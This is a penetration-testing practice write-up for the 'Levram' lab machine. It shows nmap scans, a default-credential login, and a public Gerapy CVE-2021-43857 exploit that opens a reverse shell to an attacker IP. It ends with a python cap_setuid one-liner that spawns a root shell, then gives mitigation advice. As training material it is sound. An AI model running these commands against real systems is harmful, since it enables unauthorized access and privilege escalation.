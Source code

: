 ```yaml
---
title: Levram
date: 2025-04-30
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, default-creds, CVE-2021-43857, capabilities-privesc] 
image: Ammag.webp
media_subpath: /assets/img/posts/2025-04-30-levram/
---
```


## Introduction

I identified that ports 22 and 8000 were open. Navigating to port 8000 revealed a login portal for the Gerapy web application. By using default credentials, I successfully gained access to the interface. Noticing that the application was running version 0.9.7 (as indicated at the bottom of the page), I searched for and utilized a publicly available exploit targeting this version to achieve remote access. Further enumeration revealed that the `python` binary had the `cap_setuid` capabilities enabled, which I exploited to escalate privileges and gain root access.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open 
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

We usually skip SSH.

## Web

### Port 8000

- Version - WSGIServer 0.2 (Python 3.10.6)

## Exploitation

We are presented with login panel I used `admin:admin` and got in. I saw the version information at the bottom and the found public exploit for it:

![image.png](image%201.png)

[ExploitDB CVE-2021-43857](https://www.exploit-db.com/exploits/50640)

Exploit works by logging in to application, then getting the list of created projects `(it will fail if there's none)`, then use the project setting to run the vulnerable spider mechanism by sending reverse shell payload.

[https://github.com/LongWayHomie/CVE-2021-43857/blob/main/README.md](https://github.com/LongWayHomie/CVE-2021-43857/blob/main/README.md)

So I created a random project, and then executed the exploit and a shell:

![image.png](image%202.png)

```bash
python3 50640.py -t 192.168.242.24 -p 8000 -L 192.168.45.155 -P 8000
```

![image.png](image%203.png)

I checked SUID binaries and tried `sudo -l` 

## Privilege Escalation

- OSCP Checklist
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles

I transferred `db.sqlite3` with python over attack machine:

[SQLite Pentesting](https://exploit-notes.hdks.org/exploit/database/sqlite-pentesting/)

> SQLite is a lightweight, self-contained, serverless relational database management system (RDBMS). Unlike traditional databases like MySQL or PostgreSQL, SQLite does not require a separate server process—the entire database is stored in a single file on disk.
Key Features:
- Embedded: It's part of the application; no separate server or configuration is needed.
- Zero-configuration: No setup or administration required.
- Portable: The database is just a file you can copy or move easily.
- ACID-compliant: Supports transactions to ensure data integrity.
{: .prompt-info }

But I didn’t find anything interesting in the database:

![image.png](image%204.png)

Enumerating Capabilities:

```bash
/usr/sbin/getcap -r / 2>/dev/null
```

we see:

![image.png](image%205.png)

I found a very interesting one.

[Python-Capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

```bash
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")’
```

![image.png](image%206.png)

Now we are root!

## Mitigation

- **Service Hardening:**
    - Disable or restrict access to non-essential ports (such as 8000) using firewall rules.
    - Avoid running web applications on development ports in production environments.
- **Authentication Security:**
    - Remove or change all default credentials immediately after installation.
    - Enforce strong password policies and implement two-factor authentication where possible.
- **Software Updates:**
    - Regularly update applications like Gerapy to the latest stable versions to patch known vulnerabilities.
    - Monitor vulnerability databases for any CVEs affecting software in use.
- **Capabilities Management:**
    - Audit binary capabilities using `getcap -r / 2>/dev/null` and remove unnecessary capabilities using `setcap -r`.
    - Avoid assigning `cap_setuid` or `cap_setgid` to scripting languages like Python unless absolutely necessary.
- **Privilege Escalation Protection:**
    - Apply the principle of least privilege across all user roles and services.
    - Use security modules like AppArmor or SELinux to limit what binaries can do, even if compromised.
